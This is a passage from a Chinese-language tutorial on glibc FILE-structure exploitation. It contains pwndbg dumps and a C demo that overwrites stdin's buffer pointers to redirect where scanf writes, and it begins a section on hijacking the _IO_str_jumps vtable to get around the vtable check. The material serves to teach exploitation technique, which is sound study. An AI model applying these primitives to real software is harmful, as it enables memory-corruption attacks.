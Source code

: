 ```
    _vtable_offset = 0x0,
    _shortbuf = {0x0},
    _lock = 0x7ffff7dd3790,
    _offset = 0xffffffffffffffff,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dd19c0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0x0,
    _mode = 0xffffffff,
    _unused2 = {0x0 <repeats 20 times>}
  },
  vtable = 0x7ffff7dd06e0
}
pwndbg> x/10gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000411
0x602010:	0x000000000a333231	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
```

那么如果修改 `_IO_buf_base` 和 `_IO_buf_end` 到某个目标地址地址，就能修改掉目标地址的数据：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define _IO_2_1_stdin_addr 0x7ffff7dd18e0

char buf[100] = "This is the Original Buffer.";

int main() {
    char stack_buf[100];
    void *fake_buf_base = (uint64_t)buf;
    void *fake_buf_end = (uint64_t)buf + 100;
    void *ptr = _IO_2_1_stdin_addr;
    *(uint64_t *)((uint64_t)ptr + 0x38) = fake_buf_base;
    *(uint64_t *)((uint64_t)ptr + 0x40) = fake_buf_end;

    scanf("%s", stack_buf);
    printf("%s\n", buf);
    return 0;
}
```

### Hijack `_IO_str_jumps`（<= glibc-2.28）

libc 中不仅仅只有 `_IO_file_jumps` 这个 vtable，还有一个叫做 `_IO_str_jumps`。而这个 vtable 不在 check 范围之内。如果我们能设置文件指针的 vtable 为 `_IO_str_jumps` 么就能调用不一样的文件操作函数：
